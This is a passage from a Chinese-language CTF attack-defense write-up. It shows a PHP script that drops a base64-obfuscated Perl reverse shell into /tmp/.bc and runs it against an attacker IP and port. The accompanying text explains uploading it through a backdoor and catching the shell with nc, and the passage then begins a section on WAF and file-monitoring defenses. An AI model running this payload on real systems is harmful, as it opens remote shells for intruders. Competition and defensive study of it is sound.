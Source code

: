 	} 
	$yourip = "192.168.71.1"; 
	$yourport = '9999'; 
	$usedb = array('perl'=>'perl','c'=>'c'); 
	$back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj". 
	"aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR". 
	"hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT". 
	"sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI". 
	"kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi". 
	"KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl". 
	"OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw=="; 
	cf('/tmp/.bc',$back_connect); 
	$res = execute(which('perl')." /tmp/.bc $yourip $yourport &"); 
	?> 
	

利用预留后门上传上面的php文件并访问，就可以用nc反弹shell，之后就可以一直得分了  
![ctf5](/assets/themes/images/ctf/5.png)  
需要注意的是，上面的2种方法，需要网站的权限为www-data，如果网站的权限是ctf，那么是没有权限上传文件的。  


**六、通用防御**  

对于防御，一般通用有两种方法：WAF、文件监控  
(1)WAF  
